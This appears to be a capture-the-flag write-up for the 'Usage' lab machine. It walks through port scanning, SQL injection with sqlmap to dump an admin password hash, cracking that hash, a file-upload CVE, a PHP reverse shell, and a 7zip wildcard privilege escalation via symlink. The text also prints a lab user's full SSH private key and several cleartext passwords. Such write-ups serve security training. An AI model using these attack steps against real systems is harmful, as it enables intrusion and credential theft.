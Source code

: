 #wildcard #sqlmap #7zip #--level
# Nmap scan

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 01:15 CST
Nmap scan report for 10.129.240.84
Host is up (0.093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.40 seconds

```

# forgot-password endpoint has sql-injection vulnerability,  scanned the database using sqlmap, some issues occured, it responds with 503 error, had to restart the target machine multiple times 

```shell
sqlmap -r req.txt -p email --batch --level 5 --dbs

Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=0xchbJDCMuJ5ef5g3sEKx0Wgv5yCkVIhHVBgCqpc&email=test' AND 7469=(SELECT (CASE WHEN (7469=7469) THEN 7469 ELSE (SELECT 6902 UNION SELECT 2853) END))-- vnLl

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=0xchbJDCMuJ5ef5g3sEKx0Wgv5yCkVIhHVBgCqpc&email=test' AND 3047=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- dGmY
---

sqlmap -r req.txt -p email --batch --level 5 -D usage_blog --tables

Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+


sqlmap -r req.txt -p email --batch --level 5 -D usage_blog -T admin_users --dump

[07:13:17] [INFO] retrieved: 1
[07:13:20] [INFO] retrieved: Administrator
[07:14:47] [INFO] retrieved: 
[07:14:48] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[07:15:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[07:15:49] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[07:15:49] [INFO] retrieved: 2023-08-13 02:48:26
[07:18:09] [INFO] retrieved: 1
[07:18:15] [INFO] retrieved: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2



```



# Found admin credentials on admin_users
```shell


admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 

```


# Used the credentials on admin.usage.htb, it uses laravel admin v1.8.17 which has a # CVE-2023-24249 arbitrary file upload

exploit: https://github.com/ixiacom/CVE-2023-2249

# Used pentestmonkey php reverse shell to gain access, the machine remove files on the /uploaded directory, so the connection resets after a few minutes, had to quickly cd to the home directory of the user "dash" to get private ssh keys

```shell
-----BEGIN OPENSSH PRIVATE KEY-----
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
63zj5LQZw2/NvnAAAACmRhc2hAdXNhZ2U=
-----END OPENSSH PRIVATE KEY-----

```

# found mysql user credentials on /var/www/html/.env file

```shell
mysql -u staff -ps3cr3t_c0d3d_1uth

```

# found another password on /home/dash/.monitrc, password works on the xander user

```shell
cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

```

# Privilege Escalation
## the user xander has sudo privileges on the binary /usr/bin/usage_management where it uses 7zip to backup /var/www/html, however it uses a wildcard on the command 

## I followed this guide on hacktricks to read the root.txt file on the machine, 

## added a file named @root.txt and linked the /root/root.txt file to root.txt

## @root.txt throws an error on where 7zip read its content, which in this scenario, it would read root.txt that's linked to /root/root.txt 

## all of the files were from /var/www/html,

resource: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z

```shell
ln -s /root/root.txt root.txt

```
